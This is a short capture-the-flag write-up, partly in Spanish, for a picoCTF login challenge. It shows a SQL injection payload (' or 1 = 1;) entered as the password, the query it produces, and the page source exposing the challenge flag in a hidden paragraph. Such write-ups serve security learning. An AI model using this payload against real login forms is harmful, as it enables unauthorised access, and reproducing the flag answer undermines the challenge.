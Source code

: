 ## Objetivo
Can you login to this website?Try to login [here](http://saturn.picoctf.net:61414/).
## Solución
Poner valores:
Username: admin
Password: ' or 1= 1;


username: admin
password: 'or 1 = 1;
SQL query: SELECT * FROM users WHERE name='admin' AND password=''or 1 = 1;'

Logged in! But can you see the flag, it is in plainsight.

Vemos el código fuente
```html
|   |   |
|---|---|
||<pre>username: admin|
||password: &#039; or 1 = 1;|
||SQL query: SELECT * FROM users WHERE name=&#039;admin&#039; AND password=&#039;&#039; or 1 = 1;&#039;|
||</pre><h1>Logged in! But can you see the flag, it is in plainsight.</h1><p hidden>Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_d3c660ac}</p>|
```
## Notas Adicionales

## Referencias
